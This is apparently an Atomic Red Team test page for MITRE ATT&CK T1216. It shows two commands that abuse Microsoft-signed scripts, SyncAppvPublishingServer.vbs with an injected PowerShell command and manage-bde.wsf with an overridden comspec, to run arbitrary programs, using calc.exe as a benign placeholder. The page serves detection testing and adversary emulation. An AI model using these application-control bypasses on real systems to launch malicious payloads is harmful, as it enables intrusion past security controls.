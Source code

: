 # T1216 - Signed Script Proxy Execution
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1216)
<blockquote>Adversaries may use scripts signed with trusted certificates to proxy execution of malicious files. Several Microsoft signed scripts that are default on Windows installations can be used to proxy execution of other files. This behavior may be abused by adversaries to execute malicious files that could bypass application control and signature validation on systems.(Citation: GitHub Ultimate AppLocker Bypass List)</blockquote>

## Atomic Tests

- [Atomic Test #1 - SyncAppvPublishingServer Signed Script PowerShell Command Execution](#atomic-test-1---syncappvpublishingserver-signed-script-powershell-command-execution)

- [Atomic Test #2 - manage-bde.wsf Signed Script Command Execution](#atomic-test-2---manage-bdewsf-signed-script-command-execution)


<br/>

## Atomic Test #1 - SyncAppvPublishingServer Signed Script PowerShell Command Execution

auto_generated_guid: 275d963d-3f36-476c-8bef-a2a3960ee6eb

Executes the signed SyncAppvPublishingServer script with options to execute an arbitrary PowerShell command.
Upon execution, calc.exe will be launched.
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| command_to_execute | A PowerShell command to execute. | string | Start-Process calc|


#### Attack Commands: Run with `command_prompt`! 


```cmd
C:\windows\system32\SyncAppvPublishingServer.vbs "\n;#{command_to_execute}"
```






<br/>
<br/>

## Atomic Test #2 - manage-bde.wsf Signed Script Command Execution

auto_generated_guid: 2a8f2d3c-3dec-4262-99dd-150cb2a4d63a

Executes the signed manage-bde.wsf script with options to execute an arbitrary command.
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| command_to_execute | A command to execute. | Path | %windir%&#92;System32&#92;calc.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
set comspec=#{command_to_execute}
cscript %windir%\System32\manage-bde.wsf
```

#### Cleanup Commands:
```cmd
set comspec=%windir%\System32\cmd.exe
```





<br/>
